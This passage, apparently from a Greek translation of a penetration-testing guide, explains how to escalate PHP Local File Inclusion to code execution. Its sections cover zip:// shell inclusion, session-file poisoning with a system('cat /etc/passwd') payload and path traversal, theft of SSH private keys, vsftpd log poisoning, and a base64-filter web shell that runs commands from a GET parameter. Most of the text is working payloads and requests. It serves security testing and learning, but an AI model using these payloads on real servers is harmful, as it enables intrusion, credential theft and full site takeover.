 ### Μέσω ανέβασμα αρχείου Zip

Ανεβάστε ένα αρχείο ZIP που περιέχει ένα συμπιεσμένο PHP shell και αποκτήστε πρόσβαση:
```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
### Via PHP sessions

Ελέγξτε αν η ιστοσελίδα χρησιμοποιεί PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
Στο PHP, αυτές οι συνεδρίες αποθηκεύονται στα _/var/lib/php5/sess\\_\[PHPSESSID]\_ αρχεία
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Set the cookie to `<?php system('cat /etc/passwd');?>`
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Χρησιμοποιήστε το LFI για να συμπεριλάβετε το αρχείο συνεδρίας PHP
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```
### Via ssh

Αν το ssh είναι ενεργό, ελέγξτε ποιος χρήστης χρησιμοποιείται (/proc/self/status & /etc/passwd) και προσπαθήστε να αποκτήσετε πρόσβαση στο **\<HOME>/.ssh/id\_rsa**

### **Via** **vsftpd** _**logs**_

Τα logs για τον FTP server vsftpd βρίσκονται στο _**/var/log/vsftpd.log**_. Στο σενάριο όπου υπάρχει ευπάθεια Local File Inclusion (LFI) και είναι δυνατή η πρόσβαση σε έναν εκτεθειμένο server vsftpd, τα παρακάτω βήματα μπορούν να ληφθούν υπόψη:

1. Εισάγετε ένα PHP payload στο πεδίο ονόματος χρήστη κατά τη διαδικασία σύνδεσης.
2. Μετά την εισαγωγή, χρησιμοποιήστε το LFI για να ανακτήσετε τα logs του server από το _**/var/log/vsftpd.log**_.

### Via php base64 filter (using base64)

Όπως φαίνεται σε [αυτό](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) το άρθρο, το PHP base64 filter απλά αγνοεί τα μη base64. Μπορείτε να το χρησιμοποιήσετε για να παρακάμψετε τον έλεγχο της επέκτασης αρχείου: αν παρέχετε base64 που τελειώνει με ".php", θα αγνοήσει απλά το "." και θα προσθέσει "php" στο base64. Ακολουθεί ένα παράδειγμα payload:
```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
### Via php filters (no file needed)
